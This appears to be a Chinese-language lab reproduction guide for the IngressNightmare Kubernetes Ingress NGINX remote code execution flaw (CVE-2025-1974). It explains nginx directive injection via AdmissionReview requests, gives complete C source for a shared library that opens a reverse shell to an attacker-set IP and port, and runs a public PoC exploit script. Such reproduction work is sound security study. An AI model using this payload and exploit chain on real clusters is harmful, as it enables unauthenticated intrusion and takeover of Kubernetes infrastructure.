

# IngressNightmare：Kubernetes Ingress 未经身份验证的远程代码执行漏洞（CVE-2025-1974）

Ingress-Nightmare 漏洞的核心问题在于 Ingress Nginx Controller 的准入控制器（Admission Controller）存在缺陷。准入控制器是 Kubernetes 的内部安全机制，用于在部署传入的入口对象之前对其进行验证。然而，该控制器无需身份验证即可通过网络访问，攻击者可以利用这一特性，向准入控制器发送恶意的 `AdmissionReview` 请求

需要特别说明的是， 如果要造成任意命令执行需要配合其他漏洞组合，例如下面的几个组合方式：

CVE-2025-1974 + CVE-2025-24514 通过 auth-url 注释注入RCE  
CVE-2025-1974 + CVE-2025-1097  通过 auth-tls-match-cn 注释注入RCE  
CVE-2025-1974 + CVE-2025-1098   通过镜像 UID 注入RCE

## 漏洞原理

攻击者通过构造恶意的 `AdmissionReview` 请求，可以注入任意的 Nginx 配置指令。这些指令会在配置验证阶段被 `nginx -t` 命令触发执行[^1]。例如，攻击者可以注入 `ssl_engine` 指令，该指令会加载指定的动态链接库。

更多细节参考：

* IngressNightmare: CVE-2025-1974 - 9.8 Critical Unauthenticated Remote Code Execution Vulnerabilities in Ingress NGINX[^2]
* Ingress-nginx CVE-2025-1974: What You Need to Know[^3]

## 漏洞环境

启动 k8s 环境， 这里我方便使用 k3s 进行替代：

```bash
docker compose up -d
```

等待一段时间后环境启动成功， 使用 `docker exec` 子命令进入到容器内部执行 `./exploit/init.sh`

```sh
$ docker ps -a  |grep k3s
b26496088394   rancher/k3s:v1.29.1-k3s1   "/bin/k3s server"        3 minutes ago   Up 3 minutes                0.0.0.0:80->80/tcp, :::80->80/tcp, 0.0.0.0:443->443/tcp, :::443->443/tcp   cve-2025-1974-k3s-1

# swing @ sw in ~/Desktop/vulhub/ingress-nginx/CVE-2025-1974 on git:master x [16:49:44]
$ docker exec -it cve-2025-1974-k3s-1 sh
/ # sh ./exploit/init.sh
...
root@exploit-pod:/# 
```

当成功初始化后，会进入到一个名为exploit-pod的容器里。

## 漏洞复现

我们首先需要编译一个动态链接库，而且需要和目标架构相同。动态链接库源码：

```C
  #include <unistd.h>

  #include<stdio.h>
  #include<stdlib.h>
  #include<unistd.h>
  #include<sys/socket.h>
  #include<netinet/in.h>
  #include<arpa/inet.h>


  __attribute__((constructor)) static void reverse_shell(void)
  {
      char *server_ip="xxxx";
      uint32_t server_port=7788;
      int sock = socket(AF_INET, SOCK_STREAM, 0);
      struct sockaddr_in attacker_addr = {0};
      attacker_addr.sin_family = AF_INET;
      attacker_addr.sin_port = htons(server_port);
      attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
      system("touch /tmp/hacked");
      if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
          exit(0);
      dup2(sock, 0);
      dup2(sock, 1);
      dup2(sock, 2);
      char *args[] = {"/bin/sh", NULL};
      execve("/bin/sh", args, NULL);
  }
```

修改 server_ip 为你的服务器 IP ，或者进一步修改该源代码， 可以参考 [yoshino-s/CVE-2025-1974](https://github.com/yoshino-s/CVE-2025-1974/tree/main) [^4]这个 Github 仓库，或者直接使用他的环境进行编译。将编译后的 shell.so 拷贝到 ./exploit 目录下。

然后，我们在 exploit-pod 里，切到 exploit 目录， 执行利用代码。该利用代码来自于 [IngressNightmare-PoC](https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main)Github仓库[^5]。

```
cd /exploit
python3 exploit.py
```

可见， 我们成功在 ingress-nginx 的 pod 的 /tmp/ 目录成功创建了 hacked 文件



## 参考链接

[^1]: https://github.com/kubernetes/ingress-nginx/blob/8c1ecd7655bd052a26e64d3361dede3096cd80c6/internal/ingress/controller/controller.go#L425
[^2]: https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities
[^3]: https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/
[^4]: https://github.com/yoshino-s/CVE-2025-1974/tree/main
[^5]: https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main
